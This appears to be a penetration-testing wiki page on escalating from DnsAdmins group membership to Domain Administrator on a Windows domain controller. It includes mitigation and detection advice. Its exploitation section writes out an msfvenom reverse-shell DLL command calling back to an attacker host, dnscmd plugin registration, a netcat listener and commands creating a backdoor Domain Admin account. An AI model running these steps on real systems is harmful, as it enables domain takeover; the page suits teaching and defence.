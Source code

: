 # DnsAdmin

## Description

Users who are members of the group 'DnsAdmins' have the ability to abuse a feature in the Microsoft DNS management protocol to make the DNS server load any specified DLL. The service which in turn, executes the DLL is performed in the context of SYSTEM and could be used on a Domain Controller (Where DNS is usually running from) to gain Domain Administrator privileges.

## Enumeration

{% tabs %}
{% tab title="PowerView" %}
```bash
Get-NetGroupMember -Identity "DNSAdmins"
```
{% endtab %}

{% tab title="PowerShell" %}
```bash
Get-ADGroupMember -Identity "DnsAdmins"
```
{% endtab %}
{% endtabs %}

![](<../../../.gitbook/assets/image (1978).png>)

## Exploitation

This attack scenario takes places on a Windows Server 2019 Domain Controller where, an adversary has access to the user, Moe's credentials and is connected over `WinRM` from Kali Linux. Moe has been discovered to be a member of the DnsAdmins group.

![](<../../../.gitbook/assets/image (1980).png>)

`msfvenom` can then be used to create a malicious DLL that, when executed by DNS will connect back to the attackers machine in the context of SYSTEM on the Domain Controller.

```bash
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=80 -f dll > exploit.dll
```

![Creating the malicious DLL payload with msfvenom](<../../../.gitbook/assets/image (1981).png>)

Once the malicious DLL has been uploaded to the target the following command can be used to register the DLL.

```bash
dnscmd.exe <DCName> /config /serverlevelplugindll <PathToDLL>
dnscmd.exe dc01 /config /serverlevelplugindll C:\Users\Moe\Documents\exploit.dll
```

![Configuring a new malicious DLL](<../../../.gitbook/assets/image (1983).png>)

Over on the attackers system a `netcat` listener is set to listen in, on the port specified in the `msfvenom` command earlier.

```bash
# Attacker system
nc -lvp 80
```

From here stopping the DNS service and starting it again will spawn a SYSTEM shell to the `netcat` listener.

```bash
sc.exe stop dns
sc.exe start dns
```

{% hint style="info" %}
If the privileges of the current user do not allow for stopping or starting of the DNS service you may be able to complete the exploit by crashing the service or rebooting the target system to force a DNS restart.
{% endhint %}

The `netcat` shell should now connect as SYSTEM.

![Shell as SYSTEM](<../../../.gitbook/assets/image (1984).png>)

From here Domain Administrator persistence can be achieved. A new user can be created with Domain Administrator privileges.

```bash
net user Barney Password123 /add
net group "Domain Admins" /add Barney
```

![](<../../../.gitbook/assets/image (1985).png>)

![Domain Admins AD group](<../../../.gitbook/assets/image (1986).png>)

### Metasploit

```bash
use exploit/windows/local/dnsadmin_serverlevelplugindll
```

## Mitigation

* Ensure only admin accounts are members of the DNSAdmins group and ensure they only administer DNS from admin systems. Include DNSAdmins in the list of groups that membership is carefully scrutinized.
* Regularly review the DNS server object permissions for any group/account that shouldn’t have privileged access.
* Restrict RPC communication to DCs to only admin subnets.

## Detection

* Monitor for changes to `HKLM:\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll` on DNS Servers

```bash
# Check with Powershell
Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
```

* Monitor for child processes spawned under DNS.exe on DNS servers.
* Audit ACL for write privilege to DNS server object and membership of DNSAdmins group
* Monitor event logs for ID 150 **\[Failure]** and ID 770 **\[Success]**

## Labs

{% tabs %}
{% tab title="Spoiler!" %}
```bash
Click the 'Show' tab to reveal online providers that use this attack vector
```
{% endtab %}

{% tab title="Show" %}
```bash
<Cyberseclabs>
Brute

<HackTheBox>
Resolute
```
{% endtab %}
{% endtabs %}

## References

* **\[General]** [https://adsecurity.org/?p=4064](https://adsecurity.org/?p=4064)
* **\[Offensive]** [https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2](https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2)
* **\[Detection]** [https://kb.eventtracker.com/evtpass/evtPages/EventId\_150\_Microsoft-Windows-DNS-Server-Service\_63580.asp](https://kb.eventtracker.com/evtpass/evtPages/EventId\_150\_Microsoft-Windows-DNS-Server-Service\_63580.asp)
